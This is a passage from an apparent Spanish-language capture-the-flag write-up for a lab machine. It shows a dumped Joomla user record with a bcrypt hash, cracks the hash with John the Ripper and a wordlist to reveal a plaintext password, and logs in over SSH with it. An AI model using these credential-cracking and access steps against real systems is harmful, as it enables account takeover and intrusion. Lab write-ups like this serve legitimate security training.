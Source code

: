     | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
2 rows in set (0.00 sec)

creamos un directorio llamado content
y creamos un archivo llamado hash en el cual guardamos los hash que obtuvimos
con la herramienta john crackeamos la contrasena

└─# john hash --wordlist=/usr/share/wordlist/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tequieromucho    (?)
1g 0:00:00:03 DONE (2023-12-13 10:20) 0.2710g/s 390.2p/s 390.2c/s 390.2C/s winston..michel
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

ingresamos por medio de ssh

ssh logan@10.10.11.242
The authenticity of host '10.10.11.242 (10.10.11.242)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.242' (ED25519) to the list of known hosts.
logan@10.10.11.242's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-167-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 13 Dec 2023 04:31:38 PM UTC

  System load:           0.0
  Usage of /:            64.5% of 4.76GB
  Memory usage:          17%
  Swap usage:            0%
  Processes:             174
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.242
  IPv6 address for eth0: dead:beef::250:56ff:feb9:d420

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge
